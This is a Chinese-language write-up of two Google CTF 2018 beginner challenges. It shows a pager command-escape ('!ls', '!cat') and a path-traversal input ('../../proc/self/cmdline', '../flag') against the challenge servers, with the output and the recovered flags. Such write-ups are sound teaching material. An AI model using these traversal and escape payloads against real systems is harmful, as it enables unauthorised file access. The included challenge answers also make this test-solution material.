

# Google Capture The Flag 2018 (Quals)


## Beginner's Quest - Moar
> Description:
>
> Finding yourself on the Foobanizer9000, a computer built by 9000 foos, this computer is so complicated luckily it serves manual pages through a network service. As the old saying goes, everything you need is in the manual.
>
> nc moar.ctfcompetition.com 1337

連上去可以看到他是 man socat 給我們


可以在 man 的環境下，下指令 `!command`

所以可以
```
!ls -al /home/moar
total 24
drwxr-xr-x 2 nobody nogroup 4096 Jun 22 08:36 .
drwxr-xr-x 3 nobody nogroup 4096 Jun 14 14:17 ..
-rw-r--r-- 1 nobody nogroup  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 nobody nogroup 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 nobody nogroup  655 May 16  2017 .profile
-r-xr-xr-x 1 nobody nogroup  118 Jun 22 07:58 disable_dmz.sh

!cat /home/moar/disable_dmz.sh
#!/bin/sh
echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
```

這樣就得到 flag 了


## Beginner's Quest - Admin UI
> Description:
>
> The command you just found removed the Foobanizer 9000 from the DMZ. While scanning the network, you find a weird device called Tempo-a-matic. According to a Google search it's a smart home temperature control experience. The management interface looks like a nest of bugs. You also stumble over some gossip on the dark net about bug hunters finding some vulnerabilities and because the vendor didn't have a bug bounty program, they were sold for US$3.49 a piece. Do some black box testing here, it'll go well with your hat.

> $ nc mngmnt-iface.ctfcompetition.com 1337

先連上去，這裡選第二個，然後問你要執行的文件名稱，亂打 file 這裡說沒找到
```
root@solymx:~# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
file
Error: No such file or directory
```

我們知道 `/proc/self/cmdline` 會記錄該 process 的完整執行命令行，所以改成
```
root@solymx:~# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../../../../proc/self/cmdline
./main
```

這邊我們知道他本地是執行 `./main` ，我們下次執行 ../main 就可以得到整個 binary ，可以參考資料夾下的 elf

之後再丟到 ida pro，可以看到他的 password 是去 flag 拿
```
void __cdecl primary_login()
{
  char buf2[128]; // [rsp+0h] [rbp-110h]
  char buf[128]; // [rsp+80h] [rbp-90h]
  int fd; // [rsp+10Ch] [rbp-4h]

  puts("Please enter the backdoo^Wservice password:");
  fd = open("flag", 0);
```

所以我們可以在連上去 選 2 和檔案是 ../flag
```
root@solymx:/tmp/p# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```


